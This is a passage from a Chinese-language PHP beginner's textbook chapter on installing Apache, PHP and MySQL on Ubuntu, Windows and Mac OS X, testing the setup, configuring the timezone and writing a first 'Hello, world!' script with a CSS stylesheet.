接着，您将扩展脚本以在页面中显示一些动态信息（在此示例中为当前时间），同时还将了解注释：如何编写注释，以及它们为什么有用。

学完本章后，您将对如何安装 PHP 有基本了解，并了解 PHP 脚本是如何组装的。这些都是有用的知识，您将在后续章节中在此基础上继续学习。那么，让我们开始吧！

## 安装 PHP

要创建和运行 PHP 脚本，您需要先准备好以下几项：

- [ ] 一台运行 Web 服务器软件（如 Apache 或 Internet Information Server (IIS)）的计算机
- [ ] 同一台计算机上安装的 PHP 服务器模块。该模块与 Web 服务器软件进行通信；它是实际运行 PHP 脚本工作的 PHP 引擎
- [ ] 如果您想构建数据库驱动的 Web 应用程序——您很可能会想构建——还需要安装数据库服务器。选项包括 MySQL、PostgreSQL 和 SQL Server。本书大多提到使用 MySQL，因此您将在此处安装 MySQL 数据库服务器。

操作系统与 Web 服务器软件（更不用说 PHP 版本）的组合有很多种。例如，可以运行 PHP 的操作系统包括 Linux、Windows 和 Mac OS X，而 Web 服务器软件包括 Apache、IIS 和 Zeus。为了保持简单，本章专注于在 Ubuntu Linux、Microsoft Windows 和 Mac OS X 上安装 PHP 和 Apache。

### 在 Ubuntu Linux 上安装

Linux 是 PHP Web 开发者的常见选择，因为两种技术都是开源的。此外，PHP 通常与 Linux、Apache 和 MySQL 数据库服务器配合良好；事实上，LAMP（Linux、Apache、MySQL 和 PHP）这个缩写词常用来指代这个绝佳的软件组合。

Ubuntu（www.ubuntu.com）是一个流行的 Linux 发行版，安装简便。您可以从 www.ubuntu.com/getubuntu/download 下载它；桌面版适合开发 PHP 应用程序。它以 CD 镜像形式提供，因此您只需刻录一张 CD，然后将 CD 放入计算机的驱动器并重启即可安装。

Ubuntu 桌面版自带名为 Synaptic 的图形化包管理器，您可以使用它轻松安装 Apache Web 服务器以及 PHP 模块和 MySQL 服务器。具体步骤如下：

1. 通过选择系统 ➞ 管理 ➞ Synaptic 包管理器运行 Synaptic。（您可能会被提示输入安装 Ubuntu 时创建的 root（管理员）密码。）
2. 单击 Synaptic 工具栏中的 Reload 按钮，以确保它了解最新的 Ubuntu 软件包。
3. 单击窗口左侧包组列表中的万维网选项，如图 2-1 所示。然后，在右上角的窗口中，单击以下软件包旁边的复选框：apache2、php5、php5-curl、php5-gd、php5-mysql、php5-sqlite、php5-xsl 和 php-pear。每次单击复选框时，都会出现一个弹出菜单；从此菜单中选择标记为安装，如图 2-1 所示。现在单击左侧包组列表中的杂项 - 基于文本选项，然后单击 mysql-client 和 mysql-server 旁边的复选框。

如果在列表中看不到这些软件包，请从 Synaptic 的菜单栏中选择设置 → 软件源，然后确保在软件源对话框的 Ubuntu 软件选项卡中至少选中前两个选项（main 和 universe）。然后单击 Synaptic 工具栏中的 Reload。



图 2-1

4. 每次将一个软件包标记为安装时，您通常会看到一个“标记其他所需更改”对话框（如图 2-2 所示）出现。单击 Mark 按钮，以确保 Synaptic 安装任何其他所需的软件包。



图 2-2

5. 单击 Synaptic 工具栏中的 Apply 按钮，然后在出现的 Summary 对话框中单击 Apply。Synaptic 将从网络获取所有所需的软件包并为您安装。在此过程中，您可能会被提示输入 MySQL “root” 用户的密码；只需输入密码，然后在提示时再次输入即可。如果一切顺利，您最终会看到一个 Changes Applied 对话框出现；单击该对话框中的 Close 按钮以完成安装。

6. 此时，您需要启动 Apache Web 服务器。具体操作是：选择系统 ➞ 管理 ➞ 服务，然后单击服务设置对话框底部的解锁按钮并输入密码。现在向下滚动到“Web server (apache2)”选项，并选中其复选框以启动它，如图 2-3 所示。（如果已经启动，最好单击一次复选框将其停止，然后再单击一次以重新启动。）



图 2-3

搞定！您现在应该已经安装了带有 PHP 和 MySQL 的可正常工作的 Apache Web 服务器。跳至“测试您的安装”部分，确保一切正常。

> 您安装的软件包提供了基本的 PHP 安装，具有跟随本书内容所需的功能。不过，您可以随时使用 Synaptic 同样轻松地安装额外的 PHP 软件包（或删除软件包）。

事实上，从 Ubuntu 7.04 开始，有一个更简单的方法可以一次性安装 Apache、PHP 和 MySQL。只需打开一个终端窗口（应用程序 ➞ 附件 ➞ 终端），然后输入：

```
sudo tasksel install lamp-server
```

然后按 Enter 键。这将安装拥有完全功能的 LAMP（Linux、Apache、MySQL、PHP）Web 服务器所需的所有软件包。安装过程中，您将被提示为 MySQL 选择 root 密码，但除此之外，该过程是完全自动化的。同样，安装后您可能需要重新启动 Web 服务器，如上述列表中的步骤 6 所示。还有谁说 Linux 很难！


## 在 Windows 上安装

PHP 在 Windows 上可以与 Apache 或 IIS 配合使用。为求简单，本章将介绍一种非常简便的安装 Apache 和 PHP 的方法：WampServer。这个方便的软件将 Apache、MySQL 和 PHP 集成在一个易于安装的包中。

WampServer 源自缩写 WAMP —— Windows、Apache、MySQL 和 PHP —— 用于描述任何使用这三种开源技术的基于 Windows 的 Web 服务器配置。

要安装 WampServer，请执行以下步骤：

- 1. 从 http://www.wampserver.com/en/ 下载 WampServer 的最新版本。撰写本文时，最新版本是 PHP 5.2.6；但是，当您阅读本文时，很可能已经有 PHP 5.3 版本可用。

- 2. 打开下载的 WampServer .exe 文件，并按照屏幕上的说明安装应用程序。

- 3. 取消对 Apache 的阻止。运行安装程序时，系统可能会询问您是否要允许 Apache 通过 Windows 防火墙，如图 2-4 所示。如果要允许网络上的其他计算机访问 Web 服务器，请单击 Unblock。如果您只打算从同一台计算机上的浏览器访问 Web 服务器，可以单击 Keep Blocking 以提高安全性。



图 2-4

- 4. 输入默认邮件设置。在配置过程中，系统还会要求您输入 PHP 要使用的默认邮件服务器和电子邮件地址（图 2-5）；目前您可以接受默认设置。



图 2-5

- 5. 安装向导完成后，您应该在任务栏中看到 WampServer 图标；单击此图标以显示 WampServer 菜单（图 2-6）。选择 Start All Services 选项以启动 Apache 和 MySQL 服务器。



图 2-6

- 6. 要测试 Web 服务器是否正在正常运行，请从 WampServer 菜单中选择 Localhost 选项。如果一切按计划进行，您应该会看到图 2-7 所示的页面；这意味着 WampServer 已成功安装。恭喜！转到本章的“测试您的安装”部分，以确保一切正常。



图 2-7

## 在 Mac OS X 上安装

Mac OS X 已预安装了 Apache 和 PHP 的一个版本。但是，已安装的版本可能有些过时。此外，Mac OS X 默认未预安装 MySQL 软件包，虽然完全可以自行安装。（您需要 MySQL 或类似的数据库系统来构建数据库驱动的 Web 网站，如本书后面所述。）

幸运的是，正如 Windows 有 WAMP，Mac OS X 有 MAMP —— 一个集成的、易于安装的包，可为您的 Mac 提供 Apache、MySQL 和 PHP 设置。MAMP（及其 Windows 版 WAMP 等同物）的妙处在于它是独立的。这意味着它不会弄乱已安装的任何现有服务器软件；其所有文件都存储在单个文件夹下；如果您想要，以后还可以非常轻松地卸载它。

要在 Mac 上安装 MAMP，请执行以下步骤：

- 1. 从 www.mamp.info/en/ 下载最新的 MAMP 版本。（撰写本文时，有两个版本可用：MAMP 和 MAMP PRO。常规 MAMP 用于在 Mac 上开发 PHP 应用程序已经足够。）

- 2. 打开下载的 MAMP .dmg 文件。

- 3. 在弹出的窗口中，将 MAMP 文件夹拖到 Applications 文件夹上方以安装它。

- 4. 在 Finder 中打开 Applications 文件夹内的 MAMP 文件夹，然后双击 MAMP 图标以启动应用程序。

# 第一部分：使用 PHP 入门

- 5. 如果需要，单击 Start Servers 按钮启动 Apache 和 MySQL 服务器。它们运行后，您应该会在对话框中看到它们旁边的绿灯亮起，如图 2-8 所示。



图 2-8

- 6. 要测试 Web 服务器是否正在正常运行，请单击 Open Start Page 按钮。如果看到类似图 2-9 所示的页面出现，恭喜——您的 Mac 上现在有一个可正常工作的 Apache、PHP 和 MySQL 安装！



图 2-9

默认情况下，MAMP 的 Apache 服务器运行在端口 8888 上，其 MySQL 服务器运行在端口 8889 上。这是为了避免与 Mac 上可能运行的任何其他 Apache 或 MySQL 服务器发生冲突，但这也意味着您需要在浏览器地址栏的 URL 中指定 Apache 端口（8888），如图 2-9 所示。如果您愿意，可以单击 MAMP 应用程序中的 Preferences 按钮来更改 MAMP Apache 和 MySQL 服务器使用的端口。例如，只要您已停止 Mac 上可能使用标准 HTTP 端口 80 的任何其他 Web 服务器，就可以将 MAMP Apache 端口设置为 80，以免必须在浏览器地址栏中输入端口号。

与先前讨论的 Linux 和 Windows 安装选项一样，撰写本文时 MAMP 安装的是 PHP 5.2，而非 PHP 5.3。但是，当您阅读本书时，很可能 MAMP 会提供 PHP 5.3 版本。

## 测试您的安装

现在您已在计算机上安装了 Apache、PHP 和 MySQL，可以测试安装以确保一切正常。在此过程中，您将创建您的第一个 PHP 脚本（虽然是一个极其简单的脚本！）。

### 测试 Web 服务器

首先要做的是创建一个简单的 HTML 网页用于测试。在诸如 Windows 上的 Notepad、Mac 上的 TextEdit 或 Linux 上的 `vi`/`emacs`/`pico` 等文本编辑器中，创建以下简单网页：

```
<html>
<head>
<title>Testing</title>
</head>
<body>
<h1>Testing, testing, 1-2-3</h1>
</body>
</html>
```

将网页命名为 `testing.html`，并将其保存在硬盘上 Web 服务器的文档根目录文件夹中。什么是文档根目录文件夹，您可能会问？安装 Apache 时，它会附带一个默认网站。这个网站有一个文档根目录文件夹，即您存放网站文件的顶级文件夹。您希望将 `testing.html` 网页保存在此文件夹中，以便可以通过 Web 浏览器访问它。

那么，文档根目录文件夹在哪里？这取决于您的设置，如下所示：

- - 如果您在 Ubuntu Linux 上安装了 Apache，文档根目录文件夹可能是 `/var/www`。
- - 在 Windows 上使用 WampServer 时，文档根目录文件夹通常位于 `C:\wamp\www`。
- - 如果您将 MAMP 安装到 Mac 的 `/Applications` 文件夹中，文档根目录文件夹可能是 `/Applications/MAMP/htdocs`。（请注意，您可以打开 MAMP 应用程序并单击 Preferences，然后单击 Apache 选项卡来检查甚至更改此设置。）

因此，将 `testing.html` 文件保存到相应的文件夹，然后打开 Web 浏览器，在地址栏中输入以下内容：

```
http://localhost/testing.html
```

现在按 Enter 键。如果一切按计划进行，您应该会看到类似图 2-10 的内容。



图 2-10

如果您的 Apache 服务器未运行在标准 HTTP 端口（80）上——例如，如果您安装了 MAMP 并使用其默认端口 8888——请相应地修改 URL；例如：http://localhost:8888/testing.html 。

这意味着 Apache 已经启动并正在运行，并且您已成功找到 Web 服务器的文档根目录。如果您看不到此页面，很可能发生以下两种情况之一：

- - [ ] 如果您收到 404 Not Found 错误，这意味着 testing.html 文件不在 Web 服务器的文档根目录中。再次检查文档根目录文件夹的位置——如有必要，请查看文档——并确保 testing.html 文件位于该文件夹内。
- - [ ] 如果您收到 Connection Refused 错误，Apache Web 服务器未运行（或者它正在不同的端口上运行）。检查您是否已启动 Web 服务器，以及是否已正确配置它（同样，随软件包提供的文档应该能提供帮助）。

### 测试 PHP

现在您知道 Apache 正在正常工作，是时候确保 PHP 已安装并正常工作了。这时您就可以编写您的第一个 PHP 脚本了！

再次打开文本编辑器，创建一个包含以下内容的新文件：

```
<?php
phpinfo();
?>
```

将此文件另存为 testing.php，保存在与 testing.html 相同的文件夹中——也就是说，文档根目录文件夹。现在在地址栏中输入以下内容（如有必要调整 HTTP 端口号）：

http://localhost/testing.php

按 Enter 键，您应该会看到类似图 2-11 的页面出现。（如果您安装了 PHP 5.3，您当然会在页面中看到对 5.3 版本的引用，而不是 5.2 版本。）这是运行 phpinfo() 函数的结果，这是一个内置的 PHP 函数，用于显示已安装的 PHP 版本的信息。这意味着您已成功安装 Apache 和 PHP。恭喜！




图 2-11

如果您看到 404 或“连接被拒绝”错误，请检查文档根文件夹位置和服务器配置，如“测试 Web 服务器”中所述。另一方面，如果出现“另存为”对话框，这意味着 PHP 未正确安装，或者 Apache Web 服务器不知道已安装的 PHP 模块。请查看软件包随附的文档。

## 设置时区

在结束安装和测试话题之前，您还需要做一件事，即将您的 PHP 安装配置为使用正确的时区。

对于旧版 PHP，设置时区不那么重要；如果未指定时区，PHP 引擎会尝试通过查询其运行所在的服务器来推断。然而，此过程有些不可靠，且不再推荐。因此，从 PHP 5.3 开始，如果您在未先配置时区的情况下尝试使用 PHP 中的任何日期相关功能，引擎会显示一条警告消息。

幸运的是，在 PHP 中设置时区相对简单。具体操作步骤如下：

- 1. 首先查看时区是否已设置。查看您刚刚创建的 `testing.php` 脚本生成的页面，并找到 `date.timezone` 条目（可能位于页面中间位置）。如果 `Master Value` 列不包含 `value` 或包含不正确的时区，则需要设置时区，请继续执行步骤 2。但是，如果该列包含服务器的正确时区（例如 `America/Los_Angeles`），则 PHP 的时区已正确设置，您可以跳过其余步骤。

# 第一部分：让 PHP 运行起来

- 2. 在 `testing.php` 页面顶部附近查找 `Loaded Configuration File` 条目。
  这是用于配置 PHP 引擎的 `php.ini` 文件的路径。

- 3. 在文本编辑器中打开此文件，例如 Notepad（Windows）、TextEdit（Mac）或 Text Editor（Ubuntu）。

编辑此文件可能需要 root（管理员）权限。如果您没有管理员权限，请请服务器管理员为您设置时区。

- 4. 在文件中查找以下行：

```
;date.timezone =
```

出于某种原因，如果您的 `php.ini` 文件中没有此行，请自行添加。

- 5. 删除行首的分号，并在行末等号后添加服务器的时区。您可以在 `http://www.php.net/timezones` 处的列表中找到所有时区。例如，如果您的服务器位于洛杉矶，请将该行更改为：

```
date.timezone = America/Los_Angeles
```

- 6. 保存文件并退出文本编辑器。

- 7. 使用适合您的安装方式重启 Apache。例如，在 Ubuntu 上使用本章前面所述的系统 → 管理 → 服务应用程序；在 Windows 上从 WampServer 图标菜单中选择“重启所有服务”；在 Mac 上运行 /Applications/MAMP/MAMP 应用程序，然后单击“停止服务”，再单击“启动服务”。

- 8. 要测试设置是否生效，请在浏览器中重新加载 `testing.php` 脚本并查找 `date.timezone` 条目。它现在应显示您在步骤 5 中设置的时区，页面更上方的“默认时区”条目也应如此。全部完成！

如果您无法（或不想）编辑 `php.ini` 文件，还有其他方式可以设置时区：

- 在您的网站的文档根文件夹中创建一个 `.htaccess` 文件，并向其中添加一条指令以设置时区：

```
php_value date.timezone America/Los_Angeles
```

- 或者，在您创建的每个 PHP 脚本开头附近，添加类似于以下内容的一行：

```
date_default_timezone_set( "America/Los_Angeles" );
```

有关配置 PHP（包括 `php.ini` 文件和 `.htaccess` 文件）的更多信息，请参阅附录 B。

## 运行 PHP 的其他方式

本章主要介绍在您的计算机上让 PHP 运行起来的最简单方法。您已了解如何在 Ubuntu 上安装 Apache、PHP 和 MySQL 软件包，如何在 Windows 上使用 WampServer 安装完整的 Apache/PHP/MySQL 环境，以及如何在 Mac 上使用 MAMP 做同样的事情。

您还可以以其他几种方式运行 PHP。以下各部分将简要介绍这些方式。

## 使用其他 Web 服务器运行 PHP

如前文所述，运行 PHP 不局限于使用 Apache。在 Windows 上还可以使用 Microsoft 的 Internet Information Server (IIS) 运行 PHP，也可以使用 Zeus 等其他 Web 服务器。

一种常见设置是在 Windows 上将 PHP 与 IIS 配合使用。这样做的优势在于无需安装 Apache，并且还可以在同一 Web 服务器上运行 ASP.NET 等其他 Microsoft 技术。您可以将 PHP 安装为 ISAPI 模块（这意味着它可以与 IIS 直接集成），也可以安装为独立的 CGI 二进制文件。推荐采用 ISAPI 方式以获得更严密的安全性。

本书不详细介绍安装过程，但您可以在 www.php.net 网站上了解如何使 PHP 与 IIS 配合使用：

```
http://www.php.net/manual/en/install.windows.iis.php
```

## 自行编译 PHP

本章前面介绍的安装技术均使用预编译的 PHP 二进制文件。这有助于保持简单，因为使用二进制文件（尤其是在 Windows 计算机上）比从源代码编译 PHP 更容易。

但是，在以下情况下，从源代码编译 PHP 很有用：

- 您想深入了解内部机制并随心所欲地调整 PHP

- 想要在 PHP 作为二进制包发布之前，尝试最新最棒的 PHP 版本（称为快照）。例如，如果您阅读本书时 PHP 5.3 仍未作为您的操作系统的软件包提供，则可以下载 PHP 5.3 源代码并自行编译

*各种开发版本的 PHP Windows 二进制文件已提供，这省去了您从头编译的麻烦。详情请参见 http://windows.php.net/snapshots/。*

编译 PHP 的基本步骤如下：

- 1. 如果您的计算机尚未安装 C 编译器，请先安装一个（在 Ubuntu 上安装 gcc 及相关软件包；在 Windows 上安装 Visual C++；在 Mac 上安装 Xcode）。

- 2. 从 http://www.php.net/downloads.php 下载 PHP 源代码，或从 http://snaps.php.net/ 下载最新快照，并解压/解包该文件。

- 3. 在发行版文件夹中运行 configure 脚本以设置各种编译时选项。这样您可以指定诸如将 PHP 编译为 Apache 模块，以及包含或排除特定库（如 GD 库或 MySQL 库）等内容。

- 4. 运行 make 来编译 PHP。

- 5. 运行 make install 来安装编译好的二进制文件。

这是一个非常简化的概述，在实际操作中，您通常还需要安装其他库和应用程序——尤其是在 Windows 上——才能成功编译 PHP。有关如何在 UNIX、Windows 和 Mac OS X 系统上编译 PHP 的详细信息，请参阅 `http://www.php.net/manual/en/install.php`。

## 远程运行 PHP

如果在自己的计算机上安装 PHP 让您感到有些困难，您始终可以使用托管网站的 Web 托管帐户来创建和测试 PHP 脚本（假设该帐户支持 PHP）。如果您的帐户运行在 Linux 或 BSD 等 UNIX 类型服务器上并支持 `ssh` 访问，这会更加容易；这样，您可以使用 `ssh` 连接到服务器，并直接在服务器上通过命令行开发和测试 PHP 脚本。

要通过 `ssh` 访问 Web 服务器，您需要一个 `ssh` 客户端。在 Ubuntu 上，如果尚未安装，请安装 `ssh` 软件包；在 Windows 上尝试 `putty`（`http://www.putty.org/`）。Mac OS X 预安装了 `ssh` 客户端。

如果您的 Web 托管帐户支持 PHP 但不支持 `ssh`，您可以在计算机上使用文本编辑器编写 PHP 脚本，然后使用 FTP 将其上传到 Web 服务器进行测试。这可能是一个繁琐的过程，因为您每次想要测试更改时都需要等待脚本上传，但总归比没有好。

## 创建您的第一个脚本

既然您已成功在计算机上安装 PHP，或获得了另一台运行 PHP 的计算机的访问权限，是时候开始编写第一个正式的 PHP 脚本了。这个脚本将做一件非常简单的事情：在浏览器窗口中显示文本“Hello, world!”。一旦该脚本运行成功，您将学习如何以各种方式对其进行增强。

要创建这个非常简单的脚本，请再次打开文本编辑器并输入以下内容：

```
<?php
echo "Hello, world!";
?>
```

将此文件另存为文档根文件夹中的 `hello.php`，并在浏览器中通过访问 `http://localhost/hello.php` 查看结果。您应该会看到类似于图 2-12 的内容。



图 2-12


这个脚本非常简单，但让我们逐行拆解，以探索 PHP 的一些功能。

第一行告诉 PHP 引擎，后面将跟随一些 PHP 代码：

```
<?php
```

为什么需要这一行？这是因为 PHP 可以嵌入 HTML 网页中。当 PHP 引擎开始处理页面时，它默认认为这是普通的 HTML，直到被告知其他内容。通过使用 PHP 分隔符 `<?php`，你是在告诉 PHP 引擎，将 `<?php` 之后的内容视为 PHP 代码，而不是 HTML。

下一行显示消息“Hello, world！”：

```
echo "Hello, world! ";
```

PHP 的 `echo()` 语句接受一段文本字符串——本例中为 "Hello, world!"——并将其作为网页的一部分发送到浏览器。浏览器随后向访问者显示“Hello, world！”文本。请注意行末的分号（`;`）；这告诉 PHP 当前语句已结束，它应查找下一条语句（或 PHP 代码的结束）以继续。

`echo()` 不一定要接收文本字符串；它可以显示任何可显示的内容，例如数字或表达式的结果。你将在下一章了解更多数据类型和表达式的内容。

`echo()` 的替代方案是 `print()` 语句，其工作方式完全相同，只不过它还会返回一个值（`true`）。一般来说，如果你更喜欢，可以在代码中使用 `print()` 代替 `echo()`。

简单脚本的最后一行告诉 PHP 引擎，当前 PHP 代码段已结束，后续行（如果有）再次包含普通 HTML：

```
?>
```

## 在 HTML 中嵌入 PHP

到目前为止你已经了解，PHP 的一个优点是你可以将 PHP 代码嵌入 HTML。实际上，你编写的每个 `.php` 脚本默认都被视为 HTML 页面。如果页面不包含 `<?php ... ?>` 标记，PHP 引擎会原样将文件内容发送到浏览器。

## 尝试创建一个时尚的页面

你可以利用此功能，通过添加适当的 HTML 页眉和页脚并引入 CSS 样式表，使你的“Hello, world！”示例更加美观。输入以下代码并将其保存为文档根目录下的 `hello_pretty.php`：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Hello</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1><?php echo "Hello, world!"; ?></h1>
</body>
</html>
```

接下来，输入以下 CSS 代码并将其保存为同一文件夹中的 common.css：

```
/* Page body */
body { font-family: Arial, Helvetica, sans-serif; }

/* Definition lists */
dl { width: 100%; margin: 2em 0; padding: 0; clear: both; overflow: auto; }
dt { width: 30%; float: left; margin: 0; padding: 5px 9.5% 5px 0;
border-top: 1px solid #DDDB7; font-weight: bold; overflow: auto;
clear: left; }
dd { width: 60%; float: left; margin: 0; padding: 6px 0 5px 0; border-top:
1px solid #DDDB7; overflow: auto; }

/* Headings */
h1 { font-weight: bold; margin: 35px 0 14px; color: #666; font-size: 1.5em; }
h2 { font-weight: bold; margin: 30px 0 12px; color: #666; font-size: 1.3em; }
h3 { font-weight: normal; margin: 30px 0 12px; color: #666; font-size:
1.2em; }
h4 { font-weight: bold; margin: 25px 0 12px; color: #666; font-size: 1.0em; }
h5 { font-weight: bold; margin: 25px 0 12px; color: #666; font-size: 0.9em; }

/* Forms */
label { display: block; float: left; clear: both; text-align: right;
margin: 0.6em 5px 0 0; width: 40%; }
input, select, textarea { float: right; margin: 1em 0 0 0; width: 57%; }
input { border: 1px solid #666; }
input[type=radio], input[type=checkbox],
input[type=reset], input[type=button], input[type=image] { width: auto; }
```

在浏览器地址栏输入 http://localhost/hello_pretty.php 运行你的新 PHP 脚本。你应该会看到一个更具样式的页面，如图 2-13 所示。



图 2-13

## 工作原理

本示例展示了如何在 HTML 页面中嵌入 PHP。PHP 代码本身完全相同——echo "Hello, world!"——但通过在 PHP 周围使用 HTML 标记，你创建了一个用 CSS 样式设计的格式良好的 HTML 页面。

首先，使用 DOCTYPE 和开头的 html 标记来声明页面是 XHTML 1.0 Strict 网页：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
```

接下来，网页的 head 元素为页面指定标题——“Hello”——并链接到样式表文件 common.css：

```
<head>
<title>Hello</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
```

最后，body 元素包含一个 h1（顶级标题）元素，其中包含 PHP 代码的输出——echo "Hello, world!";——然后用闭合的 html 标记完成页面：

```
<body>
<h1><?php echo "Hello, world!"; ?></h1>
</body>
</html>
```

请注意，`<?php` 和 `?>` 标记不必分别放在单独的行上。在这种情况下，标记和封闭的 PHP 代码都是单行的一部分。

与此同时，common.css 样式表文件包含用于设置某些常见 HTML 元素样式的选择器——包括页面中使用的 h1 标题——以产生更美观的结果。

> 请将此 common.css 文件保存在文档根目录中，因为本书中的其他示例会用到它。

如果在浏览器中查看生成网页的源代码，你会发现最终页面与原始 HTML 标记相同，只是 PHP 代码 — `<?php echo "Hello, world!"; ?>` — 被替换为代码输出（“Hello, world！”）。PHP 引擎仅处理由 `<?php ... ?>` 标记封闭的页面部分。

## 进一步增强脚本

“Hello, world！”示例展示了如何编写一个简单的 PHP 脚本，但该代码没有任何实际用途——使用简单的 HTML 页面也能轻松达到同样的效果。在本节中，你将增强脚本以显示当前时间。这样，你就从创建静态网页转向创建动态网页；每次查看时页面内容都会发生变化。

下面是修改后的“Hello, world！”脚本：

```
